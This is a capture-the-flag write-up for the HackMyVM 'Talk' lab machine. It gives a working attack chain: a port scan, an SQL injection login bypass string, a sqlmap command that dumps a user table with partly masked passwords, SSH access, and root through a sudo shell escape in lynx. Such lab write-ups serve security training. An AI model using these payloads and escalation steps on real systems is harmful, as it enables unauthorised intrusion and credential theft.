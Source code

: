 # Talk - HackMyVM, writeup

## Port scan
```console
┌──(alienum㉿kali)-[~]
└─$ nmap 10.0.2.179   
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Login sql injection
```console
Username : admin' or '1'='1'-- -
Password : whateveryouwant
```
## POST request sql injection ( send_message.php )
- r.txt
```
POST /send_message.php HTTP/1.1
Host: 10.0.2.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Origin: http://10.0.2.179
Connection: close
Referer: http://10.0.2.179/home.php
Cookie: PHPSESSID=m7ffe2uiavtmhbkmupt24lh2qi

msg=hi&id=1
```
#### SQLmap
```console
sqlmap -r r.txt --dump -D chat -T user
```
```
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrian*******   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsm********* | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriend***     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | david********   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

## Reading the chat
```
 February 18, 2021 4:48:pm
nona: where is adrian?

February 18, 2021 4:49:pm
tina: he got hacked!

February 18, 2021 4:49:pm
jerry: all of us....

February 18, 2021 4:50:pm
nona: :(
```
- The hacker shuffle the passwords 
#### Correct username & password matching
```
nona  : thatsm*********
```
## SSH as nona
```console
┌──(alienum㉿kali)-[~]
└─$ ssh nona@10.0.2.179                                    
nona@10.0.2.179's password: thatsm*********
nona@talk:~$ ls
flag.sh  user.txt
nona@talk:~$
```
## Root
#### sudo -l

```console
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
```
####
```console
nona@talk:~$ sudo -u root /usr/bin/lynx
Spawning your default shell.  Use 'exit' to return to Lynx.

Press : SHIFT + 1

root@talk:/home/nona# cd
root@talk:~# ls
flag.sh  root.txt
root@talk:~#
```
## Thanks sML
